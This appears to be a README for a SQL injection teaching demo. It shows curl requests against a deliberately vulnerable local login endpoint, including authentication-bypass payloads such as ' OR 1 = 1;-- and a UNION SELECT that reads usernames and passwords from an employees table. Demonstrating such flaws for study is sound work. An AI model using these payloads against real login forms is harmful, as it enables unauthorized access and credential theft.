 SQL Injection Demo
==========

Execute Server
----------
```
python main.py
```

Test Server
----------
Tests are executed on Windows
```
curl -d "username=felix&password=pwfelix" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}

curl -d "username=felix&password=wrongPW" -X POST http://localhost:5000/login_form_vulnerable
{"status":"fail"}
```

Injection basic attack
```
curl -d "username=felix&password=' OR 1 = 1;--" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}

curl -d "username=felix&password=' OR '1' = '1" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}
```

Injection UNION attack
```
curl -d "username=felix&password=' UNION SELECT username, password FROM employees WHERE username = '' OR '1' = '1" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}
```
